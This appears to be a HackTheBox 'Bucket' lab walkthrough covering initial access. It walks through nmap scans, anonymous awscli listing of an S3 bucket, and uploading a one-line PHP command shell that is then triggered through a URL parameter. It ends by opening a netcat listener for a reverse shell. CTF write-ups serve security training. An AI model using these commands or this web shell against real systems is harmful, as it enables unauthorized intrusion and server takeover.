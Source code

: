 <h2>AWS lab on HackTheBox called ‘Bucket’</h2>

<h3>Initial Access:</h3>
Step 1: nmap -Pn 10.10.10.212 -p- --min-rate=5000|awk -F '/' '/open/ {print $1}'

Output returns open ports 22 and 80.

Step 2: Enumerate these open ports further with nmap: nmap -Pn 10.10.10.212 --min-rate=5000 -p 22,80 -sCV -oN nmap-htb-buckets 

Output returns:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/651a96ff-1389-4e6a-8db0-786d0045cf75)

Step 3: Nmap output shows a domain name of bucket.htb.  Enter this into /etc/hosts file so that we can access this domain name: 10.10.10.212 bucket.htb

Step 4: Visit the site http://bucket.htb.  Looking over the source code on the site shows:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/35ca4db5-919d-4916-923d-874e11e55532)

This shows a source at a subdomain of http://s3.bucket.htb.  

Enter this subdomain into /etc/hosts: 10.10.10.212 bucket.htb s3.bucket.htb

Step 5: The subdomain of s3.bucket.htb indicates that this is an aws s3 bucket.  Let’s check if we can list any s3 buckets with anonymous access using awscli: aws --no-sign-request s3 ls --endpoint-url http://s3.bucket.htb

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/f5597f92-9daf-4364-a5fe-649361cdc27d)

This return shows that there is a s3 bucket called ‘adserver’.

Step 6: List the ‘adserver’ s3 bucket: aws --no-sign-request s3 --endpoint-url http://s3.bucket.htb ls s3://adserver

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/92959525-b656-4c2b-85fe-47f5258346d7)

Download ‘index.html’ listed in the bucket: aws s3 --no-sign-request --endpoint-url http://s3.bucket.htb  cp s3://adserver/index.html .

Opening index.html confirms that this bucket is listing the website http://bucket.htb.  

Step 7: Check for more information on what we can do on this s3 bucket by running the ‘OPTIONS’ request method on the s3.bucket.htb endpoint:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/f4bc41c8-224e-411d-a556-852ef6122026)

We see from this that we can use the ‘PUT’ request method which is used to upload files.  

Step 8: Upload a php command shell (`<?php system($_GET[“cmd”]); ?>`) to the bucket: aws s3 --no-sign-request --endpoint-url http://s3.bucket.htb cp /home/kali/Downloads/test.php s3://adserver/

Navigate to the uploaded file: http://bucket.htb/test.php?cmd=whoami

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/108b6033-cda6-431b-84af-d15f3514f864)

Step 9: Open up a netcat listener: nc -lvnp 4444

Next, upload a php webshell using the same command used in step 8.  Then navigate to the uploaded web shell to get a shell as user www-data.





